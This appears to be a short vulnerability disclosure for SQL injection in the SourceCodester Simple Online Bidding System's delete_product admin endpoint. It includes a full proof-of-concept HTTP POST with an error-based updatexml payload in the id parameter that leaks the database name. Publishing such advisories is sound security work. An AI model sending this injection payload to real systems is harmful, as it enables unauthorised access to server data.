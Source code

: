 ## Sourcecoster simple online bidding system has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability file
/simple-online-bidding-system/bidding/admin/ajax.php?action=delete_product

## Vulnerability analysis
<img width="1214" alt="image" src="https://github.com/user-attachments/assets/0a1f5e50-9e64-4f56-acac-b96f05c570aa">

<img width="1138" alt="image" src="https://github.com/user-attachments/assets/fe36c648-7178-4bf4-86f0-c386581b27f1">


## describe
There is an unrestricted SQL injection attack in the simple online bidding system, and the controllable parameter is id. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /simple-online-bidding-system/bidding/admin/ajax.php?action=delete_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 59
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/bidding/admin/index.php?page=products
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=4%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

<img width="1202" alt="image" src="https://github.com/user-attachments/assets/c44bce99-b441-4138-b042-cff0468b68ed">







